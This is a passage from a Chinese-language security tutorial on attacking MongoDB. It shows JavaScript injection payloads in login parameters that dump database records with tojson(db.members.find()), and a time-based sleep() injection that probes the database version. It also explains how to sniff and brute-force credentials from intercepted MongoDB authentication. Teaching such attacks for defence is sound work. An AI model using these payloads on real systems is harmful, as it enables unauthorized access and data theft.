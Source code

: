 [![十分钟看懂MongoDB攻防实战](https://image.3001.net/images/20170925/15063017192613.png!small)](https://image.3001.net/images/20170925/15063017192613.png)

当执行上述代码后，JS代码变成了如下的形式：

`$q = ?function() { var loginn = user; var passs = '1';` 

`var loginn = db.version();` 

`var b='';` 

`db.members.insert({id : 2, log- in : loginn, pass : passs}); }?`

现在我们可以通过这个漏洞来阅读数据库其他的记录：

```cobol
/?login=user&password= '; var loginn = tojson(db.members. find()[0]); var b='2
```

让我们来详细的了解一下：

> 1.  已知的函数结构可以用于重写变量并执行任意代码。
> 
> 2.  tojson（）函数有助于从数据库中获得完整的响应。 
> 
> 3.  最重要的部分是db.members.find（）[0]，其中members是一个表，而find（）是一个输出所有记录的函数。 结尾处的数组表示我们处理的记录数。 通过爆破结尾处数组的值，我们可以从数据库中收到记录。

当然，代码执行后可能会没有输出，这时我们需要基于时间的注入方法，这种技术利用服务器响应延迟来接收数据。 举一个例子：

`?login=user&password=';`

`if(db.version()>"2")`

`{ sleep(10000); exit;}` 

`var loginn =1;` 

`var b='2`

这个请求可以让我们知道数据库版本。 如果超过2（例如2.0.4），那么我们的代码将被执行，并且服务器会以延迟响应。

### **嗅探MongoDB**

众所周知，MongoDB允许创建数据库的特殊用户。 有关数据库中用户的信息存储在表db.system.users中。

我们对上述表中用户名字段和密码字段感兴趣。 用户列包含user login，pwd – MD5 string？％login％：mongo：％password％？其中login和password包含用户的登录名，哈希值，密钥和密码。

[![十分钟看懂MongoDB攻防实战](https://image.3001.net/images/20170925/15063017426317.png!small)](https://image.3001.net/images/20170925/15063017426317.png)

所有数据都是未加密传输的，并且通过劫持数据包可以获取用户名和密码的特定数据。 在MongoDB服务器上认证时，需要劫持客户端发送的随机数，登录名和密钥。 包含以下形式的MD5字符串：

```cobol
%nonce% + %login% + md5(%login% + ":mongo:" + %passwod%)。
```

编写软件自动劫持数据并不困难，但会暴力劫持登录名和密码的后果却十分严重。

### **BSON数据的漏洞分析**
